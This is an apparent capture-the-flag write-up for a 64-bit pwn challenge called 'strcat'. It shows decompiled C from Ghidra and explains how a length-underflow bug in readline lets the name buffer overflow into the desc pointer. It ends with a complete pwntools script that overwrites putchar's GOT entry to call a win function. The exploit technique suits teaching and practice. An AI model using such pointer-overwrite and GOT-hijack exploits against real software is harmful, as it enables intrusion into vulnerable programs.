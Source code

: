 ```yaml
---
layout: post
current: post
cover: False # Use URL here if you want to add any image as cover
navigation: True
title: "Backdoor-Weekly-Challenge writeup - strcat"
date: 2020-04-23 12:24:00 +0530
tags: ['writeups','weekly-challenges']
class: post-template
subclass: 'post tag'
author: 'InfoSecIITR'
---
```


We are given a 64-bit binary with ASLR (but no PIE). Looking through the functionality of the binary, it asks us for a *name*, a *desc*(which was a malloc-ed chunk of 0x20 size) and then through a menu prompt, let's us concatenate stuff to this *name* buffer (which has a `maxlen` of `0x80` btw) and to the *desc* chunk. There is also a *win* fucntion which simply prints the flag on the screen. So, our objective is simply to call the win function.

One obvious vulnerability was a format string vulnerability in the `main` function where `printf(name)` and `printf(desc)` are used. Now, since these buffers are in the BSS and heap section, so a format string was somewhat tricky(You can try that though).

```c
ulong readline(void *param_1,int param_2)

{
  uint uVar1;
  size_t sVar2;
  
  read(0,param_1,(long)param_2);
  sVar2 = strlen(name);
  uVar1 = (int)sVar2 - 1;
  *(undefined *)((long)param_1 + (long)(int)uVar1) = 0;
  return (ulong)uVar1;
}
```
readline function disassembly using Ghidra

```c

void main(void)

{
  int iVar1;
  size_t sVar2;
  size_t sVar3;
  
  setup();
  puts("My strcat");
  maxlen = 0x80;
  printf("Name: ");
  iVar1 = readline(name,0x80);
  maxlen = maxlen - iVar1;
  desc = (char *)malloc(0x20);
  printf("Desc: ");
  readline(desc,0x20);
  do {
    while( true ) {
      print_menu();
      printf("> ");
      iVar1 = read_int32();
      if (iVar1 != 2) break;
      printf("Desc: ");
      readline(desc,0x20);
    }
    if (iVar1 == 3) {
      printf(name);
      printf(desc);
      putchar(10);
    }
    else {
      if (iVar1 == 1) {
        printf("Name: ");
        iVar1 = maxlen;
        sVar2 = strlen(name);
        sVar3 = strlen(name);
        iVar1 = readline(name + sVar3,(ulong)(uint)(iVar1 - (int)sVar2),sVar3);
        maxlen = maxlen - iVar1;
      }
      else {
        puts("Invalid");
      }
    }
  } while( true );
}

```
main function disassembly using ghidra

 Another (not so obvious) vulnerability was in the `readline` function which calculated the length of the string as `len = strlen(string)` and returned the value `len - 1` . Now in the `main` function, when we concatenate something to the *name* buffer, `maxlen` is updated to
`maxlen = maxlen - readline(name)`.
Oh, and one thing to remember, the *desc* pointer was located just **below** the *name* buffer. So, with an overflow in the buffer we could overwrite *desc* pointer and then edit this modified pointer through the menu. How do we get this overflow?



If we send `\x00` as the name, then `strlen(name)` would return `0x0` and the readline function would actually return `-1`, this would mean `maxlen = maxlen - (-1)` which effectively overflows our name buffer once, repeat this method to increase the `maxlen` buffer to say `0x90`. Now, we can simply overwrite the *desc* poiner to point it to a GOT function (I chose the `putchar@GOT` for this) and then with the help of *edit desc* option, overwrite this GOT entry to point to *win* function.


The entire exploit can then be written as:

```python
#!/usr/bin/python

from pwn import *

'''
[*]strcat'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

'''

local = False

if '-r' not in sys.argv:
    local = True

p = process('./strcat')
e = ELF('./strcat')


def init(name, desc):
    p.sendafter('Name:', name)
    p.sendafter('Desc:', desc)

def add_to_name(name):
    p.sendlineafter('>', str(1))
    p.sendafter('Name:', name)

def edit_desc(desc):
    p.sendlineafter('>', str(2))
    p.sendafter('Desc:', desc)

def viewall():
    p.sendlineafter('>', str(3))
    data = p.recvuntil('Menu',drop=True)


#Trigger the bug discussed above by sending '\x00' as the name
name_init = '\x00'
desc_init = "AAAAAAA"
init(name_init, desc_init)

# Continuosly increase maxlen to cover the desc pointer by sending null byte
for i in xrange(16):
    add_to_name('\x00')


# Finally overwriting the desc pointer with the GOT entry for putchar
payload = "A"*0x80 + '\x20\x20\x60\x20'
add_to_name(payload)

# Overwrite putchar@GOT with win function
payload = p64(e.symbols['win'])
edit_desc(payload)

# Use the print it all function in menu and you'll get the flag

p.interactive()


```
